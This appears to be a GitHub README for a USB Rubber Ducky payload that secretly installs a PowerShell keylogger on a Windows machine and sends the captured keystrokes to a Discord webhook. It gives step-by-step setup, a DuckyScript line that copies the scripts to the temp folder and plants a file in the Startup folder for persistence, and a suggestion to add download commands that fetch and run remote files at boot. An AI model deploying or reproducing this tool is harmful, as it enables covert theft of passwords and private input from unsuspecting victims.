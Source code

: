 # DucKeyhook 
> Chris Taylor [Blue Cosmo]
---

```
      :::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   ::: :::    :::  ::::::::   ::::::::  :::    ::: 
     :+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+: :+:    :+: :+:    :+: :+:    :+: :+:   :+:   
    +:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  +:+    +:+ +:+    +:+ +:+    +:+ +:+  +:+     
   +#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   +#++:++#++ +#+    +:+ +#+    +:+ +#++:++       
  +#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    +#+    +#+ +#+    +#+ +#+    +#+ +#+  +#+       
 #+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    #+#    #+# #+#    #+# #+#    #+# #+#   #+#       
#########   ########   ########  ###    ### ##########    ###    ###    ###  ########   ########  ###    ###        
```

## Overview:
DucKeyhook is a USB RubberDucky payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay
- *uninstaller.cmd* uninstalls the payload from the target computer

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=uHIZZYFeVJA)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Discord Webhook
- Windows Target

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 16 *payload.txt*, change `'L'` to the name of your microSD card
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\l.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
4. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
5. load, encode, and deploy!!

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
